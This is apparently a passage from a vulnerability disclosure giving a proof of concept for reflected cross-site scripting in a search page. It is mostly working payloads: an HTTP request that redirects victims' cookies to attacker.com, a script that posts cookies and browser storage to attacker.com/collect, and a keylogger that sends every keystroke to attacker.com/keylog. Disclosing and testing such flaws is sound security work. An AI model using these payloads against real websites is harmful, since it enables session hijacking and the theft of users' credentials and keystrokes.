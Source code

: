 ### 🎯 Proof of Concept (PoC)

#### Step 1: Basic XSS Test
```http
GET /search.php?query=<script>alert('XSS')</script> HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
```

**Response**: JavaScript alert box displays "XSS"

#### Step 2: Cookie Theft Demonstration
```http
GET /search.php?query=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script> HTTP/1.1
Host: example.com
```

**Result**: User's session cookies are sent to attacker's server

#### Step 3: Session Hijacking PoC
```javascript
// Payload that steals session information
<script>
fetch('http://attacker.com/collect', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage),
        url: window.location.href,
        userAgent: navigator.userAgent
    })
});
</script>
```

#### Step 4: Keylogger Implementation
```javascript
// Payload that logs keystrokes
<script>
document.addEventListener('keydown', function(e) {
    fetch('http://attacker.com/keylog', {
        method: 'POST',
        body: 'key=' + e.key + '&target=' + e.target.name
    });
});
</script>
```

### 📸 Evidence Screenshots

1. **Basic XSS Alert**: [Screenshot showing alert popup]
2. **Cookie Theft**: [Screenshot of attacker server receiving cookies]
3. **DOM Inspection**: [Screenshot showing injected script in DOM]
4. **Network Traffic**: [Screenshot showing malicious requests]
